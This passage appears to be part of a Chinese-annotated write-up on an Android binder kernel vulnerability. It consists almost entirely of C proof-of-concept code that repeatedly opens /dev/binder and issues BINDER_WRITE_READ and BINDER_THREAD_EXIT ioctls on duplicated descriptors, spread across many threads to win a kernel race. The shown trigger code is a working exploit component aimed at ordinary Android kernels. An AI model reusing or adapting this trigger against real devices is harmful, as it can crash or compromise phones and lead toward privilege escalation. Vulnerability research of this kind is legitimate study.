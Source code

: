open("/dev/binder",O_RDWR), 入队，然后出队

```
void *trigger_thread_func(void *argp) {
    unsigned long id = (unsigned long)argp;
    int ret = 0;
    int binder_fd = -1;
    int binder_fd_copy = -1;

    // Opening binder device
    binder_fd = open("/dev/binder", O_RDWR);
    if (binder_fd < 0)
        perror("An error occured while opening binder");

    for (;;) {
        // Refill the memory region with the transaction
        init_binder_transaction(1);
        // Copying the binder fd
        binder_fd_copy = dup(binder_fd);
        // Sending the transaction
        ret = ioctl(binder_fd_copy, BINDER_WRITE_READ, MEM_ADDR + 0x100);
        if (ret != 0)
            debug_printf("BINDER_WRITE_READ did not work: %d", ret);
        // Binder thread exit
        ret = ioctl(binder_fd_copy, BINDER_THREAD_EXIT, 0);
        if (ret != 0)
            debug_printf("BINDER_WRITE_EXIT did not work: %d", ret);
        // Closing binder device
        close(binder_fd_copy);
    }

    return NULL;
}

```

多线程调用，更大概率可以触发到

```
int main() {
    pthread_t trigger_threads[NB_TRIGGER_THREADS];

    // Memory region for binder transactions
    mmap((void*)MEM_ADDR, MEM_SIZE, PROT_READ | PROT_WRITE,
         MAP_PRIVATE | MAP_FIXED | MAP_ANONYMOUS, -1, 0);

    // Init random
    srand(time(0));

    // Get rid of stdout/stderr buffering
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);

    // Starting trigger threads
    debug_print("Starting trigger threads");
    for (unsigned long i = 0; i < NB_TRIGGER_THREADS; i++) {
        pthread_create(&trigger_threads[i], NULL, trigger_thread_func, (void*)i);
    }
    // Waiting for trigger threads
    for (int i = 0; i < NB_TRIGGER_THREADS; i++)
        pthread_join(trigger_threads[i], NULL);

    return 0;
}

```